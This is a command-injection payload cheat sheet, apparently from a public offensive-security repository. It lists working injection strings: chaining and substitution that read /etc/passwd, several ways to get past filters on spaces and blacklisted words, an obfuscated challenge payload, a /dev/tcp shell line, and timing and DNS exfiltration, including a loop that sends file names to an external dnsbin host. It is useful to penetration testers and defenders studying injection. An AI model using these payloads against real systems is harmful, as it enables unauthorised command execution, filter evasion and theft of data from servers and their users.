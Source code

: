 # Remote Commands Execution

Remote Commands execution is a security vulnerability that allows an attacker to execute Commandss from a remote server.
NOTE: Reverse Shell Command are relocated to a [single file](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md)

## Exploits

Normal Commands execution, execute the command and voila :p

```powershell
cat /etc/passwd
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/bin/sh
bin:x:2:2:bin:/bin:/bin/sh
sys:x:3:3:sys:/dev:/bin/sh
```

Commands execution by chaining commands

```powershell
original_cmd_by_server; ls
original_cmd_by_server && ls
original_cmd_by_server | ls
original_cmd_by_server || ls    Only if the first cmd fail
```

Commands execution inside a command

```powershell
original_cmd_by_server `cat /etc/passwd`
original_cmd_by_server $(cat /etc/passwd)
```

Commands execution without space - Linux

```powershell
swissky@crashlab:~/Www$ cat</etc/passwd
root:x:0:0:root:/root:/bin/bash

swissky@crashlab▸ ~ ▸ $ {cat,/etc/passwd}
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin

swissky@crashlab▸ ~ ▸ $ cat$IFS/etc/passwd
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin

swissky@crashlab▸ ~ ▸ $ echo${IFS}"RCE"${IFS}&&cat${IFS}/etc/passwd
RCE
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin

swissky@crashlab▸ ~ ▸ $ X=$'uname\x20-a'&&$X
Linux crashlab 4.4.X-XX-generic #72-Ubuntu

swissky@crashlab▸ ~ ▸ $ sh</dev/tcp/127.0.0.1/4242
```

Commands execution without space - Windows

```powershell
ping%CommonProgramFiles:~10,-18%IP
ping%PROGRAMFILES:~10,-5%IP
```

Commands execution without spaces, $ or { } - Linux (Bash only)

```powershell
IFS=,;`cat<<<uname,-a`
```

Commands execution with a line return

```powershell
something%0Acat%20/etc/passwd
```

Bypass blacklisted word with single quote

```powershell
w'h'o'am'i
```

Bypass blacklisted word with double quote

```powershell
w"h"o"am"i
```

Bypass blacklisted word with backslash and slash

```powershell
w\ho\am\i
/\b\i\n/////s\h
```

Bypass blacklisted word with $@

```powershell
who$@ami
```

Bypass blacklisted word with variable expansion

```powershell
/???/??t /???/p??s??

test=/ehhh/hmtc/pahhh/hmsswd
cat ${test//hhh\/hm/}
cat ${test//hh??hm/}
```

Bypass zsh/bash/sh blacklist

```powershell
echo $0
-> /usr/bin/zsh
echo whoami|$0
```

## Challenge

Challenge based on the previous tricks, what does the following command do:

```powershell
g="/e"\h"hh"/hm"t"c/\i"sh"hh/hmsu\e;tac$@<${g//hh??hm/}
```

## Time based data exfiltration

Extracting data : char by char

```powershell
swissky@crashlab▸ ~ ▸ $ time if [ $(whoami|cut -c 1) == s ]; then sleep 5; fi
real    0m5.007s
user    0m0.000s
sys 0m0.000s

swissky@crashlab▸ ~ ▸ $ time if [ $(whoami|cut -c 1) == a ]; then sleep 5; fi
real    0m0.002s
user    0m0.000s
sys 0m0.000s
```

## DNS based data exfiltration

Based on the tool from `https://github.com/HoLyVieR/dnsbin` also hosted at dnsbin.zhack.ca

```powershell
1. Go to http://dnsbin.zhack.ca/
2. Execute a simple 'ls'
for i in $(ls /) ; do host "http://$i.3a43c7e4e57a8d0e2057.d.zhack.ca"; done
```

```powershell
$(host $(wget -h|head -n1|sed 's/[ ,]/-/g'|tr -d '.').sudo.co.il)
```

## Thanks to

* [SECURITY CAFÉ - Exploiting Timed Based RCE](https://securitycafe.ro/2017/02/28/time-based-data-exfiltration/)
* [Bug Bounty Survey - Windows RCE spaceless](https://twitter.com/bugbsurveys/status/860102244171227136)
* [No PHP, no spaces, no $, no { }, bash only - @asdizzle](https://twitter.com/asdizzle_/status/895244943526170628)
* [#bash #obfuscation by string manipulation - Malwrologist, @DissectMalware](https://twitter.com/DissectMalware/status/1025604382644232192)
